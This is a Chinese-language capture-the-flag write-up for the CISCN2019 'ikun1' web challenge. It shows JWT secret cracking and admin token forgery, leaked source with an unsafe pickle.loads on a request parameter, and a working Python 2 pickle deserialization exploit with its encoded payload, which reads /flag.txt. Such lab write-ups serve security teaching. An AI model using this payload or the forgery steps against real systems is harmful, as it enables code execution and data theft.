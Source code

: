 # 题目

## [CISCN2019 华北赛区 Day1 Web2]ikun1

提示 python pickle



1.查看页面源码，发现提示

![image-20240928215700643](/Users/alven/Documents/GitHub/ctf/web/图片截图/image-20240928215700643.png)

浏览页面，找到level 6的页面 181，

下单，修改优惠比例，提示admin才行，查看页面请求，得到jwt token

2.解密jwt token

JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMSJ9.kFKLac89rUM6C1Rk2FHRmwWFsd0DFfwxuqM1rdaeRNU;

得到密码是1kun

![image-20240928220004976](/Users/alven/Documents/GitHub/ctf/web/图片截图/image-20240928220004976.png)

重新构建jwt 填回页面，找到

```javascript
<div class="ui text container login-wrap-inf">
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip" ><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
<div class="ui segments center padddd">
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
<div class="ui segment">
<img src="/static/img/b.png" alt=""/>
```

3.下载源码

发现有pickle，怀疑有pickle反序列化漏洞(admin.py)

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

构建运行脚本（需用python2）

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a)
```



```shell
 ✘ 🐸   ~/Alven/CTF/BugKu/web-ikun1  /Users/alven/.pyenv/versions/2.7.18/bin/python /Users/alven/Alven/CTF/BugKu/web-ikun1/www/exp.py
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```



替换become参数为上payload，得出

![image-20240928223006263](/Users/alven/Documents/GitHub/ctf/web/图片截图/image-20240928223006263.png)



flag{69f0688e-9ae0-4f82-a181-ad455a7a8fd1}